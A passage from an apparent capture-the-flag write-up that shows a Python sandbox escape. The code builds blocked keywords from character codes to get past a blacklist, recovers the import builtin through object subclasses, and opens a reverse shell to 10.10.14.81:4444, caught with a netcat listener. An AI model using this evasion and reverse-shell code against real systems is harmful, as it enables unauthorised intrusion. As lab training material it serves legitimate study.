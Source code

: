 ## Foothold

Now, we can easily extend our code and setup a reverse-shell using [python socket](https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell) : 

```python
# obfuscating `__import__`, `os` and `subprocess` strings to escape keywords blacklist
imp_key = "".join([chr(i) for i in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95]]
o_s_key = "".join(chr(i) for i in [111, 115])            
sub = "".join(chr(i) for i in [115, 117, 98, 112, 114, 111, 99, 101, 115, 115])

# retrieving `__import__` builtin from `objects` subclasses                 
imp_func = [ x.__init__.__globals__ for x in ''.__class__.__bases__[0].__subclasses__() if "wrapper" not in str(x.__init__)][0][imp_key]

# import `os`, `socket` and `subprocess`
invoke_o_s = imp_func(o_s_key)
invoke_socket = imp_func('socket')
invoke_sub = imp_func(sub)                  
                              
s=invoke_socket.socket(invoke_socket.AF_INET,invoke_socket.SOCK_STREAM);
s.connect(("10.10.14.81",4444));
invoke_o_s.dup2(s.fileno(),0); 
invoke_o_s.dup2(s.fileno(),1); 
invoke_o_s.dup2(s.fileno(),2);
p=invoke_sub.call(["/bin/sh","-i"]);
```

Setting up netcat from our VM : 

```bash
nc -lnvp 4444
```

and it works! We have a shell

![reverse-shell](images/code-reverse-shell.png) 

And we can get `user.txt` under `/home/app-production` : 

![app-production-get-user-txt](images/code-app-production-get-user-txt.png) 

## Lateral Movement

 Doing further reconnaissance under the `app` directory :
